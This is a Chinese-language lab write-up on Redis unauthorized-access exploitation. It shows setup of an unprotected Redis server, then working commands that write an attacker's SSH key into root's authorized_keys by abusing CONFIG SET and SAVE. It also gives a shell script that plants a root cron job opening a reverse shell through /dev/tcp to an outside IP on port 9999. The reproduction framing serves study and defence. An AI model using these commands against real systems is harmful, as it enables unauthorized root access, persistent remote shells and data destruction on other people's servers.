



# Redis未授权访问漏洞

## 简介

redis是一个开源的存储系统，支持数据的持久化存储、支持key-value、list、set等数据结构存储，支持备份。

但若redis存在未授权访问，就会导致攻击者可以无需认证就能访问redis内部资源，获取敏感文件，甚至执行flushall清空数据，给root账户写入ssh公钥直接远程登录目的服务器。

## 环境搭建

```
wget https://download.redis.io/releases/redis-5.0.14.tar.gz
tar xvf redis-5.0.14.tar.gz
cd  redis-5.0.14
make -j 4
make install
```

直接运行redis-server

```
redis-server --protected-mode no
```

## 漏洞复现

```
root@l-virtual-machine:/opt# redis-cli -h 192.168.32.141
192.168.32.141:6379> keys *
(empty array)
```



SSH私钥访问

```sh
$ ssh-keygen -t  rsa
$ (echo -e "  "; cat /root/.ssh/id_rsa.pub; echo -e "  ") > foo.txt
$ cat foo.txt | redis-cli -h 192.168.32.141 -x set test
$ redis-cli -h 192.168.32.141
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```


反弹shell

> 此方法在ubuntu中因无法忽略乱码导致失败
>
> 

```sh
#shell.sh
echo -e "\n\n\n*/1 * * * * bash -i >&/dev/tcp/192.168.32.141/9999 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

